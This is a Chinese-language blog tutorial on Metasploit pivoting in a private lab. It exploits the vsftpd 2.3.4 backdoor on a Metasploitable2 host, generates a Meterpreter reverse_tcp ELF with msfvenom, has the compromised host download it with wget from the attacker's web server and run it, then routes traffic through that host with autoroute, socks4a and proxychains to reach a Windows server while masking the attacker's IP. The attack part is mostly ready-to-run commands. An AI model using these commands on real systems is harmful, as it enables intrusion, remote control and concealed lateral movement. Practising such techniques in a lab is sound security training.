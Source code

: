 ```yaml
---
layout: post
category: binghe-code-hack
title: Meterpreter以被控制的计算机为跳板渗透其他服务器
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Meterpreter以被控制的计算机为跳板渗透其他服务器
lock: need
---
```


# Meterpreter以被控制的计算机为跳板渗透其他服务器

攻击机：Kali 192.168.75.10

跳板： Metasploitable2 192.168.75.130

目标机： Windows Server 2012 192.168.75.140

这里无法通过Kali(192.168.75.10)主机直接访问目标机(192.168.75.140)，目标机只能通过跳板(192.168.75.130)访问，这里Kali(192.168.75.10)已经成功渗透跳板(192.168.75.130)主机，需要将已渗透主机(192.168.75.130)设置为跳板来访问目标机(192.168.75.140)。

如果直接通过攻击机(192.168.75.10)访问目标机(192.168.75.140),会出现如下错误：

![img](https://img-blog.csdnimg.cn/20190114124851544.png)

这里，跳板(192.168.75.130)拥有连接目标机(192.168.75.140)权限。因此需要一些方法将我们对目标机(192.168.75.140)发起的请求通过跳板(192.168.75.130)转发出去，需要的这种技术方法就是跳板技术。

这里，我们首先要渗透跳板(192.168.75.130)主机。具体步骤如下：

开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.75.130
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.75.130
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务，只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.75.130
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.75.10 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.75.10/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.75.10
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

下面，我们需要执行autoroute脚本，并使用-s将脚本的参数设定为目标主机(192.168.75.140)的IP地址，这样我们就可以在已经被我们渗透的跳板机(192.168.75.130)上添加一条到达目标主机(192.168.75.140)的路由。

## 添加路由

```
run autoroute -p
run autoroute -s 192.168.75.140
run autoroute -p
```



以攻击者(192.168.75.10)的角度看，现在需要启动一个可以将请求通过Meterpreter发送给目标的模块。可以选择auxiliary/server/socks4a这个模块。

## 启动监听

在攻击机(192.168.75.10)上执行如下命令：

```
use auxiliary/server/socks4a
show options
set SRVHOST 127.0.0.1
set SRVPORT 1080
run
```

## 配置攻击机(192.168.75.10)/etc/proxychains.conf

添加下面一行配置：

```
socks4 127.0.0.1 1080
```



![img](https://img-blog.csdnimg.cn/20190114125602716.png)

## 配置Forefox代理

![img](https://img-blog.csdnimg.cn/20190114125618848.png)

再一次打开目标服务器(192.168.75.140)的限制目录下的网页。

![img](https://img-blog.csdnimg.cn/20190114125638407.png)

这里，我们就可以访问了。

接下来，我们访问下目标服务器(192.168.75.140)服务器的IP记录器，如下：

![img](https://img-blog.csdnimg.cn/20190114125656890.png)

可以看到是跳板(192.168.75.130)的IP地址，不管我们对目标服务器(192.168.75.140)做了什么，对目标服务器(192.168.75.140)眼中这一切都是跳板机(192.168.75.130)做的。然而，我们的真实IP确是192.168.75.10。

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)